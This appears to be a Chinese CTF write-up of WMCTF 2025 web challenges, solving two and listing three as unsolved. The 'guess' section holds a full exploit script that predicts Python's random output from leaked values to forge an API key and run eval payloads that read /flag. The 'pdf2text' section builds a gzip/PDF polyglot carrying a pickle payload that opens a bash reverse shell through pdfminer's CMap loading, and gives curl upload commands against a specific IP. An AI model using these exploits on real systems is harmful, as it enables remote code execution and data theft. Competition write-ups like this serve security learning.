





# WMCTF 2025 Web Writeup


定榜第六


# guess
源码
```
from flask import Flask, request, jsonify, session, render_template, redirect
import random

rd = random.Random()

def generate_random_string():
    return str(rd.getrandbits(32))

app = Flask(__name__)
app.secret_key = generate_random_string()

users = []

a = generate_random_string()

@app.route('/register', methods=['POST', 'GET'])
def register():
    if request.method == 'GET':
        return render_template('register.html')
    
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    if any(user['username'] == username for user in users):
        return jsonify({'error': 'Username already exists'}), 400
    
    user_id = generate_random_string()
    
    users.append({
        'user_id': user_id,
        'username': username,
        'password': password
    })
    
    return jsonify({
        'message': 'User registered successfully',
        'user_id': user_id
    }), 201


@app.route('/login', methods=['POST', 'GET'])
def login():

    if request.method == 'GET':
        return render_template('login.html')

    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    user = next((user for user in users if user['username'] == username and user['password'] == password), None)
    
    if not user:
        return jsonify({'error': 'Invalid credentials'}), 401
    
    session['user_id'] = user['user_id']
    session['username'] = user['username']
    
    return jsonify({
        'message': 'Login successful',
        'user_id': user['user_id']
    }), 200

@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    
    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})
    
    return jsonify({
        'message': 'Access granted',
    })


@app.route('/')
def index():
    if 'user_id' not in session:
        return redirect('/login')
    
    return render_template('index.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001)
```
而当传入的 key 不等时，会回显出 `key2` 的值
```
if not str(key1) == str(key2):
	return jsonify({
		'message': 'Not Allowed:' + str(key2) ,
	}), 403
```
恰巧看到这篇文章

通过访问该 PRNG 的足够数量的输出（特别是总共 624 个），就可以预测后续输出，而程序 key 不等就返回 key2 的值
下面这段程序进行了概念验证，当获取 624 个 32 位数据情况下预测之后的输出，具体原理参考文章
https://stackered.com/blog/python-random-prediction/?utm_source=chatgpt.com#similarities-with-php
```
import random

random.seed(1234)

def unshiftRight(x, shift):
    res = x
    for i in range(32):
        res = x ^ res >> shift
    return res

def unshiftLeft(x, shift, mask):
    res = x
    for i in range(32):
        res = x ^ (res << shift & mask)
    return res

def untemper(v):
    v = unshiftRight(v, 18)
    v = unshiftLeft(v, 15, 0xefc60000)
    v = unshiftLeft(v, 7, 0x9d2c5680)
    v = unshiftRight(v, 11)
    return v

for _ in range(1234):
    random.getrandbits(32)

state = [untemper(random.getrandbits(32)) for _ in range(624)]

print("Normal run :")

print(random.getrandbits(32))
print(random.random())
print(random.randbytes(4).hex())
print(random.randrange(1, 100000))

print("\nPredicted run :")

# set RNG state from observed ouputs
random.setstate((3, tuple(state + [624]), None))

print(random.getrandbits(32))
print(random.random())
print(random.randbytes(4).hex())
print(random.randrange(1, 100000))
```
exp
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import sys, re, requests, collections

def api_post(base, key, payload=None, session=None):
    s = session or requests.Session()
    data = {"key": str(key)}
    if payload is not None:
        data["payload"] = payload
    r = s.post(base + "/api", json=data, timeout=8)
    return r

def leak_next_u32(base, s):
    r = s.post(base + "/api", json={"key":"-1"}, timeout=8)
    try:
        j = r.json()
    except Exception:
        raise RuntimeError(f"[leak] Bad JSON: {r.text[:200]}")
    m = re.search(r"Not Allowed:(\d+)", j.get("message",""))
    if not m:
        raise RuntimeError(f"[leak] No leak found in: {j}")
    return int(m.group(1))


MASK32 = 0xFFFFFFFF

def undo_right_shift_xor(y, shift):
    y &= MASK32
    x = 0
    for i in range(31, -1, -1):
        yi = (y >> i) & 1
        xi_shift = ((x >> (i + shift)) & 1) if (i + shift) <= 31 else 0
        xi = yi ^ xi_shift
        x |= (xi << i)
    return x & MASK32

def undo_left_shift_xor_and(y, shift, mask):
    y &= MASK32
    mask &= MASK32
    x = 0
    for i in range(32):
        yi = (y >> i) & 1
        term = ((x << shift) & mask) >> i
        xi = yi ^ (term & 1)
        x |= (xi << i)
    return x & MASK32

def untemper(y):
    y &= MASK32
    y = undo_right_shift_xor(y, 18)
    y = undo_left_shift_xor_and(y, 15, 0xEFC60000)
    y = undo_left_shift_xor_and(y, 7,  0x9D2C5680)
    y = undo_right_shift_xor(y, 11)
    return y & MASK32

class MTPredictor:
    def __init__(self):
        self.state = [0]*624
        self.idx = 624
        self.filled = 0

    def submit(self, tempered_u32):
        if self.filled >= 624:
            raise ValueError("Already have full state")
        self.state[self.filled] = untemper(tempered_u32)
        self.filled += 1

    def ready(self):
        return self.filled == 624

    def _twist(self):
        for i in range(624):
            y = (self.state[i] & 0x80000000) | (self.state[(i+1)%624] & 0x7fffffff)
            self.state[i] = self.state[(i+397)%624] ^ (y >> 1)
            if (y & 1):
                self.state[i] ^= 0x9908B0DF
        self.idx = 0

    def getrand_u32(self):
        if self.idx >= 624:
            self._twist()
        y = self.state[self.idx]; self.idx += 1
        y ^= (y >> 11)
        y ^= (y << 7) & 0x9D2C5680
        y ^= (y << 15) & 0xEFC60000
        y ^= (y >> 18)
        return y & MASK32

def build_predictor_from(outputs624):
    pred = MTPredictor()
    for y in outputs624:
        pred.submit(y)
    assert pred.ready()
    return pred


PAYLOAD_STATIC = '(__import__("os").makedirs(__import__("pathlib").Path(__import__("flask").current_app.static_folder), exist_ok=True), __import__("pathlib").Path(__import__("flask").current_app.static_folder).joinpath("f.txt").write_bytes(__import__("pathlib").Path("/flag").read_bytes()))'
PAYLOAD_TEMPLATE = '(__import__("os").makedirs(__import__("pathlib").Path(__import__("flask").current_app.root_path).joinpath("templates"), exist_ok=True), __import__("pathlib").Path(__import__("flask").current_app.root_path).joinpath("templates","login.html").write_bytes(__import__("pathlib").Path("/flag").read_bytes()))'

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} http://TARGET:PORT")
        sys.exit(1)
    base = sys.argv[1].rstrip("/")
    s = requests.Session()
    s.headers.update({"User-Agent":"mt-rce/1.0"})

    print("[*] Collecting 624 PRNG outputs from /api ...")
    window = collections.deque(maxlen=624)
    for i in range(624):
        y = leak_next_u32(base, s)
        window.append(y)
        if (i+1) % 50 == 0:
            print(f"    collected {i+1}/624")

    pred = build_predictor_from(list(window))

    y_real = leak_next_u32(base, s)
    window.append(y_real)
    pred = build_predictor_from(list(window))
    valid_key = pred.getrand_u32()
    print(f"[*] Calibrated. Valid key should be: {valid_key}")

    for attempt in (1, 2):
        print(f"[*] Attempt {attempt}: sending payload to /api with key={valid_key} ...")
        r = api_post(base, valid_key, PAYLOAD_STATIC, s)
        try:
            j = r.json()
        except Exception:
            j = {}
        if r.status_code == 200 and j.get("message") == "Access granted":
            print("[+] RCE success (static)")
            break

        m = re.search(r"Not Allowed:(\d+)", j.get("message",""))
        if r.status_code == 403 and m and attempt == 1:
            leaked = int(m.group(1))
            print(f"[!] Mismatch, server leaked key2={leaked}, resync and retry ...")
            window.append(leaked)
            pred = build_predictor_from(list(window))
            valid_key = pred.getrand_u32()
            continue

        if r.status_code == 500 and attempt == 1:
            print("[!] Got 500, re-sync (consume one leak) and retry ...")
            y_real = leak_next_u32(base, s)
            window.append(y_real)
            pred = build_predictor_from(list(window))
            valid_key = pred.getrand_u32()
            continue

        print(f"[-] Unexpected response: {r.status_code}, {j}")
        break

    print("[*] Fetching /static/f.txt ...")
    rf = s.get(base + "/static/f.txt", timeout=8)
    if rf.status_code == 200:
        print("\n=== FLAG ===")
        print(rf.text)
        print("============\n")
        return

    print("[!] /static not found, try template overwrite exfil ...")
    y_real = leak_next_u32(base, s)
    window.append(y_real)
    pred = build_predictor_from(list(window))
    valid_key = pred.getrand_u32()

    r2 = api_post(base, valid_key, PAYLOAD_TEMPLATE, s)
    try:
        j2 = r2.json()
    except Exception:
        j2 = {}

    if r2.status_code == 403:
        m = re.search(r"Not Allowed:(\d+)", j2.get("message",""))
        if m:
            leaked = int(m.group(1))
            window.append(leaked)
            pred = build_predictor_from(list(window))
            valid_key = pred.getrand_u32()
            r2 = api_post(base, valid_key, PAYLOAD_TEMPLATE, s)

    print("[*] GET /login ...")
    page = s.get(base + "/login", timeout=8).text
    print("\n=== POSSIBLE FLAG PAGE (first 1200 chars) ===")
    print(page[:1200])
    print("... (truncated)")
    print("=============================================\n")

if __name__ == "__main__":
    main()
```


# pdf2text 
源码如下，app.py
```
from flask import Flask, request, send_file, render_template
from pdfminer.pdfparser import PDFParser
from pdfminer.pdfdocument import PDFDocument
import os, io
from pdfutils import pdf_to_text

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB limit

os.makedirs(app.config['UPLOAD_FOLDER'], exist_ok=True)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return 'No file part', 400
    
    file = request.files['file']
    filename = file.filename
    if filename == '':
        return 'No selected file', 400
    
    if '..' in filename or '/' in filename:
        return 'directory traversal is not allowed', 403 

    pdf_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    pdf_content = file.stream.read()

    try:
        # just if is a pdf 
        parser = PDFParser(io.BytesIO(pdf_content))
        doc = PDFDocument(parser)
    except Exception as e:
        return str(e), 500
    
    with open(pdf_path, 'wb') as f:
        f.write(pdf_content)

    md_filename = os.path.splitext(filename)[0] + '.txt'
    txt_path = os.path.join(app.config['UPLOAD_FOLDER'], md_filename)

    try:
        pdf_to_text(pdf_path, txt_path)
    except Exception as e:
        return str(e), 500 
    
    return send_file(txt_path, as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
pdfutils.py
```
from pdfminer.high_level import extract_pages,extract_text
from pdfminer.layout import LTTextContainer

def pdf_to_text(pdf_path, txt_path):
    with open(txt_path, 'w', encoding='utf-8') as txt:
        for page_layout in extract_pages(pdf_path):
            for element in page_layout:
                if isinstance(element, LTTextContainer):
                    txt.write(element.get_text())
                    txt.write('\n')
```
在 Pdfminer 源码中发现一条反序列化链，sink

```
class CMapDB:
	def _load_data(cls, name: str) -> Any:
		name = name.replace("\0", "")
		filename = "%s.pickle.gz" % name
		log.debug("loading: %r", name)
		cmap_paths = (
			os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
			os.path.join(os.path.dirname(__file__), "cmap"),
		)
		for directory in cmap_paths:
			path = os.path.join(directory, filename)
			if os.path.exists(path):
				gzfile = gzip.open(path)
				gzfiles = gzfile.read()
				try:
					return type(str(name), (), pickle.loads(gzfile.read()))
				finally:
					gzfile.close()
		raise CMapDB.CMapNotFound(name)
```
PDFResourceManager 当 font 为复合字体时实例化 PDFCIDFont ，其构造函数调用 get_cmap_from_spec 去加载 CMapDB，走到 `_load_data`触发 `pickle.loads`
`CMap gadget`链
```
high_level.py::extract_pages()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFCIDFont.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFCIDFont.get_cmap_from_spec(spec, strict)
							cmapdb.py::CMapDB.get_cmap(cmap_name)
								cmapdb.py::CMapDB._load_data(name)
									gzip.open(name + ".pickle.gz","rb").read()
										pickle.loads(<gz-bytes>)
```
程序对上传文件进行 PDF 解析，如果能解析成功则放行
```
try:
	# just if is a pdf
	parser = PDFParser(io.BytesIO(pdf_content))
	doc = PDFDocument(parser)
except Exception as e:
	return str(e), 500
```
pdfminer 会在前约 1KB范围内扫描 `%PDF-`，不要求从 offset 0 开始；一旦找到就按 PDF 规范继续解析。据此可构造 polyglot，让一份文件既是合法 `PDF`、又能被 `gzip` 按规范读取。生成两个文件，Polyglot 绕过限制落地留下 pickle 代码，pdf 触发 CMap 链子
把完整 PDF 放进 GZIP 的 FEXTRA，同时在压缩体部分塞入 pickle payload
`1.py` 
```
import zlib, struct, pickle, binascii

def build_pdf(abs_base: int) -> bytes:
    header = b"%PDF-1.7\n%\xe2\xe3\xcf\xd3\n"
    def obj(n, body: bytes): return f"{n} 0 obj\n".encode()+body+b"\nendobj\n"

    objs = []
    objs.append(obj(1, b"<< /Type /Catalog /Pages 2 0 R >>"))
    objs.append(obj(2, b"<< /Type /Pages /Count 1 /Kids [3 0 R] >>"))
    page = b"<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 4 0 R >> >> /Contents 5 0 R >>"
    objs.append(obj(3, page))
    objs.append(obj(4, b"<< /Type /Font /Subtype /Type1 /BaseFont /Helvetica >>"))
    stream = b"BT /F1 12 Tf (hello polyglot) Tj ET"
    objs.append(obj(5, b"<< /Length %d >>\nstream\n" % len(stream) + stream + b"\nendstream"))

    body = header
    offsets_abs = []
    cursor_abs = abs_base + len(header)
    for o in objs:
        offsets_abs.append(cursor_abs)
        body += o
        cursor_abs += len(o)

    # xref stream (/W [1 4 2])：type(1B)+offset(4B BE)+gen(2B)
    entries = [b"\x01" + struct.pack(">I", off) + b"\x00\x00" for off in offsets_abs]
    xref_stream = zlib.compress(b"".join(entries))
    xref_obj = (
        b"6 0 obj\n"
        b"<< /Type /XRef /Size 7 /Root 1 0 R /W [1 4 2] /Index [1 5] "
        b"/Filter /FlateDecode /Length " + str(len(xref_stream)).encode() + b" >>\nstream\n" +
        xref_stream + b"\nendstream\nendobj\n"
    )

    startxref_abs = abs_base + len(body)
    trailer = b"startxref\n" + str(startxref_abs).encode() + b"\n%%EOF\n"
    return body + xref_obj + trailer

def build_gzip_with_extra(extra_pdf: bytes, payload: bytes) -> bytes:
    ID1, ID2, CM = 0x1f, 0x8b, 8
    FLG, MTIME, XFL, OS = 0x04, 0, 0, 255
    if len(extra_pdf) > 65535:
        raise ValueError("FEXTRA >65535")

    header  = bytes([ID1, ID2, CM, FLG])
    header += struct.pack("<I", MTIME)
    header += bytes([XFL, OS])
    header += struct.pack("<H", len(extra_pdf))
    header += extra_pdf

    comp = zlib.compressobj(level=9, wbits=-15)
    deflated = comp.compress(payload) + comp.flush()

    crc   = binascii.crc32(payload) & 0xffffffff
    isize = len(payload) & 0xffffffff
    trailer = struct.pack("<II", crc, isize)

    return header + deflated + trailer

if __name__ == "__main__":
    cmd = "bash -c 'bash -i >& /dev/tcp/ip/5555 0>&1'"

    expr = (
        "__import__('os').system(%r) or "
        "{'decode': (lambda self, b: [])}"
    ) % cmd

    class P:
        def __reduce__(self):
            import builtins
            return (builtins.eval, (expr,))

    payload = pickle.dumps(P(), protocol=2)

    pdf = build_pdf(abs_base=12)
    poly = build_gzip_with_extra(extra_pdf=pdf, payload=payload)

    open("evil.pickle.gz", "wb").write(poly)
    assert poly[:4] == b"\x1f\x8b\x08\x04"
    assert poly.find(b"%PDF-") != -1 and poly.find(b"%PDF-") < 1024
```
生成 pdf，/Encoding 指向 pickle.gz 绝对路径，用 #2F 转义绕过 PDFName 对象限制
`2.py` 
```
import io

def encode_pdf_name_abs(abs_path: str) -> str:
    return "/" + abs_path.replace("/", "#2F")

def build_trigger_pdf(cmap_abs_no_ext: str) -> bytes:
    enc_name = encode_pdf_name_abs(cmap_abs_no_ext)
    header = b"%PDF-1.4\n%\xe2\xe3\xcf\xd3\n"
    objs = []

    def obj(n, body: bytes):
        return f"{n} 0 obj\n".encode() + body + b"\nendobj\n"

    objs.append(obj(1, b"<< /Type /Catalog /Pages 2 0 R >>"))
    objs.append(obj(2, b"<< /Type /Pages /Count 1 /Kids [3 0 R] >>"))
    page = b"<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>"
    objs.append(obj(3, page))
    stream = b"BT /F1 12 Tf (A) Tj ET"
    objs.append(obj(4, b"<< /Length %d >>\nstream\n" % len(stream) + stream + b"\nendstream"))
    font_dict = f"<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding {enc_name} /DescendantFonts [6 0 R] >>".encode()
    objs.append(obj(5, font_dict))
    objs.append(obj(6, b"<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>"))

    buf = io.BytesIO()
    buf.write(header)
    offsets = []
    cursor = len(header)
    for o in objs:
        offsets.append(cursor)
        buf.write(o)
        cursor += len(o)

    xref_start = buf.tell()
    buf.write(b"xref\n0 7\n")
    buf.write(b"0000000000 65535 f \n")
    for off in offsets:
        buf.write(f"{off:010d} 00000 n \n".encode())
    buf.write(b"trailer\n<< /Size 7 /Root 1 0 R >>\n")
    buf.write(f"startxref\n{xref_start}\n%%EOF\n".encode())
    return buf.getvalue()

if __name__ == "__main__":
    abs_no_ext = "/proc/self/cwd/uploads/evil"
    with open("trigger.pdf", "wb") as f:
        f.write(build_trigger_pdf(abs_no_ext))
```
触发链子，反弹 Shell
```
curl -sS -F "file=@evil.pickle.gz;type=application/pdf;filename=evil.pickle.gz"   http://49.232.42.74:31263/upload | sed -n '1,80p'

curl -sS -F "file=@trigger.pdf;type=application/pdf;filename=pwned.pdf"   http://49.232.42.74:31263/upload | sed -n '1,120p'
```



后面三题没解决，长期更新补充

# Ezparquet(unsolved)

# Rustdesk笑传之change client backend(unsolved)


# Safeline(unsolved)



---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/wmctf-2025-web-writeup/  

